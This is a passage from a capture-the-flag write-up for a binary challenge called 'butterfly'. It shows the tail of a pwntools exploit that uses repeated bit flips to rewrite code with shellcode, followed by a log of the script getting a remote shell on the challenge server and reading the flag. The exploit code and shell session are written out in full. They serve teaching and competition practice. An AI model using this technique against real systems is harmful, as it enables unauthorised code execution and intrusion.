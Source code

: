 ```

for i in range(0,len(chunks_gr)):
    flips = list('{:08b}'.format(int(chunks_gr[i],16) ^ int(chunks_sh[i], 16)))
    flips.reverse()
    indices = []
    for j in range(0,len(flips)):
        if (flips[j] == '1'):
            indices.append(j)
    for n in indices:
        r.sendline('0x{:x}'.format((shell_addr + i) * 8 + n))

# Reset the call to mprotect
r.sendline(loop_val)
r.clean()
r.interactive()
```

Let's execute it:

```
$ ./payload.py 
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode 
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
[snip]
/bin/sh@ GOD, WHITHER CASTEST THY COSMIC RAY?
/bin/sh
WAS IT WORTH IT???
$ ls
butterfly
flag
wrapper
$ cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
$
```

Yup bit flips for the win!

[fgets]: http://man7.org/linux/man-pages/man3/fgets.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[r2]: http://www.radare.org/r/
[shellnoob]: https://github.com/reyammer/shellnoob
